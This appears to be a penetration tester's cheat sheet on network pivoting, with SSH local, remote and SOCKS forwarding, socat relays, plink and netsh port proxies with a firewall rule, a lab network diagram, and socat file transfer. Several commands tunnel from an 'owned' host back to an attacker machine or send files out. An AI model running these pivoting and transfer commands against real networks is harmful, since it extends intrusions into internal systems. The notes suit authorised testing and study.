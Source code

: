 Port forwarding from $TARGET_IP to localhost with SSH
---
```bash
ssh -N -L $LOCAL_PORT:localhost:$PORT $USER@$TARGET_IP
```

```bash
sshpass -p $PASSWORD ssh $USER@$TARGET_IP -L $PORT:127.0.0.1:$PORT
```

or run in background with -f option

```bash
ssh -N -f -L $PORT:localhost:$PORT $USER@$TARGET_IP
```

Forward port from remote machine to local machine:

```bash
sudo service ssh start
```

then on remote machine

```bash
ssh -N -R $REMOTE_PORT:localhost:$PORT kali@$ATTACKER_IP
```

or start dynamic port forwarding (socks5 proxy) on localhost:

```bash
ssh -N -R 9998 kali@$LOCAL_IP
```
Proxy on localhost:9090 using SSH and credentials:
(WARNING: Proxy is very unstable if it cannot resolve a host, e.g. http page includes)
```bash
#socks5, localhost:9090 in FoxyProxy
ssh -D 9090 $USER@$TARGET_IP
```
From first server > second server > third server < from second to first
---
expose smb shares on 3rd server
```bash
ssh -N -L 0.0.0.0:4455:$THIRD_SERVER_IP:445 $USER@$SECONDARY_SERVER_IP
```
Forward local port to target IP with SOCAT
---
```bash
socat TCP-LISTEN:139,reuseaddr,fork TCP:$TARGET_IP:$PORT &
```

## socat
---
#socat #pivot #port-forwarding

forward port 22 on internal/unreachable to attacker box to owned box port 2222

```bash
socat -ddd TCP-LISTEN:2222,fork TCP:$INTERNAL_IP:22
```

![](images/socat-network-pivot.png)

```puml
@startuml
!theme crt-green

nwdiag {
    internet [shape=cloud]
    VPN [type=switch];
    internet -- VPN
    group {
      color="#425444"
      webserver;
      database;
    }
    network VPN_network {
      VPN;
      webserver [address = "192.168.x.101"];
      attacker [address = "192.168.x.102" shape = entity];
      address = "192.168.x.x/24"
    }
    network internal {
        address = "10.x.x.x/24"
        webserver [address = "10.x.x.102" shape = database]
        database [address = "10.x.x.101" shape = collections];
        other_server [address = "10.x.x.103" ];
    }

}
@enduml
```

Using plink:

#pivot #port-forwarding 

```powershell
plink.exe -ssh -l kali -pw $KALI_PASSWORD -R 127.0.0.1:$KALI_PORT:127.0.0.1:$LOCAL_PORT $KALI_IP
```

using netsh:
```powershell
netsh interface portproxy add v4tov4 listenport=2222 listenaddress=$OWNED_IP connectport=22 connectaddress=$FORWARD_IP
netsh interface portproxy show all
netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=$OWNED_IP localport=$LISTEN_PORT action=allow
```
Using SOCAT to send file:
---
On receiving machine

```bash
socat -u TCP-LISTEN:9876,reuseaddr OPEN:$FILE_OUT,creat
```

and on sending machine

```bash
socat -u FILE:$FILE_OUT TCP:$RECEIVER_IP:9876
```